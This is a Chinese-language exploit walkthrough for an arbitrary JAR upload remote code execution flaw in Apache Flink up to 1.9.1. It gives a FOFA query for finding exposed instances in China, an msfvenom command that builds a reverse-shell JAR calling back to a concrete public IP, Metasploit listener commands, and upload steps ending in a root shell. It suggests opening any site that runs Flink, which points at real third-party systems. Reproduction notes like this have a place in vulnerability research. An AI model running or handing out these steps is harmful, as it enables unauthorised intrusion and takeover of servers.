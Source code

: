 # Apache Flink <= 1.9.1(最新版本) 远程代码执行

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.

##  影响范围

Apache Flink  <= 1.9.1(最新版本)

## FOFA

```fofa
FOFA 语句
app="Apache-Flink" && country="CN"
```

![](image/flink-1.png)

国内还是很多使用 `Apache Flink` 的，大概有1000的数量左右

## 漏洞复现

随便打开一个使用 Apache Flink 的网站，打开后页面为这样子

![](image/flink-2.png)

点击查看文件上传页面

![](image/flink-3.png)



打开MSF 生成一个 jar 木马

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=39.99.135.123  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件

![](image/flink-4.png)

监听端口

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![](image/flink-6.png)

点击下 submit 

![](image/flink-5.png)

反弹回来一个root 权限shell

![](image/flink-7.png)